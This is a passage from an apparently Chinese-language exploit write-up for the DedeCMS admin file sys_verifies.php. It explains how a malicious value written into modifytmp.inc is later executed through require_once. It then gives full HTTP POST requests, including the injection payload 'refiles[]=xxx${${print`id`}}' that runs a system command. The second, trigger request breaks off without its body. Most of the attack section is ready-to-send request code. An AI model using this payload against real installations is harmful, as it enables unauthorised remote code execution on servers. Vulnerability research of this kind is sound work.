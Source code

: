 2. 这个分支的第一个操作就是定义`$cacheFiles`变量指向`modifytmp.inc`文件
   - `DEDEDATA`是DedeCMS中定义的常量，指向数据目录

3. 然后立即使用`require_once()`函数加载这个文件：
   ```php
   require_once($cacheFiles);
   ```

4. 加载后，代码会使用从`modifytmp.inc`中获取的变量：
   - `$fileConut`：用于检查是否下载完所有文件
   - `$tmpdir`：临时目录名
   - `$files[$curfile]`：当前要下载的文件名

这就是漏洞利用链的关键部分：
1. 之前的`getfiles`操作创建了包含恶意代码的`modifytmp.inc`
2. 当访问`action=down`时，系统通过`require_once()`包含这个文件
3. PHP解析器会执行文件中的所有PHP代码，包括我们注入的恶意指令
4. `curfile=1`参数会使系统尝试访问`$files[0]`，触发我们的注入代码

典型的"文件包含后利用"模式，先将恶意代码写入文件，再诱导系统加载执行该文件。

### 步骤一，先包含

```http
POST /dede/sys_verifies.php HTTP/1.1
Host: www.dede.top
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=vjtlnq0jvrql4iuveubluted36; _csrf_name_74ae9ccb=0afd0608d1019e243ccd2edfa52c8d53; _csrf_name_74ae9ccb1BH21ANI1AGD297L1FF21LN02BGE1DNG=101e27f26cfdc22e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=46f5b1c017a14f40; DedeLoginTime=1748391833; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=8c5466a9a07e334a
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://www.dede.top
Referer: http://www.dede.top/dede/sys_verifies.php?action=getfiles
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: 43

action=getfiles&refiles%5B%5D=xxx$%7B$%7Bprint%60id%60%7D%7D
```

![image-20250528084731526](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505280847888.png)

### 步骤二，再触发

```http
POST /dede/sys_verifies.php HTTP/1.1
Host: www.dede.top
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=vjtlnq0jvrql4iuveubluted36; _csrf_name_74ae9ccb=0afd0608d1019e243ccd2edfa52c8d53; _csrf_name_74ae9ccb1BH21ANI1AGD297L1FF21LN02BGE1DNG=101e27f26cfdc22e; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=46f5b1c017a14f40; DedeLoginTime=1748391833; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=8c5466a9a07e334a
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://www.dede.top
Referer: http://www.dede.top/dede/sys_verifies.php?action=getfiles
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
```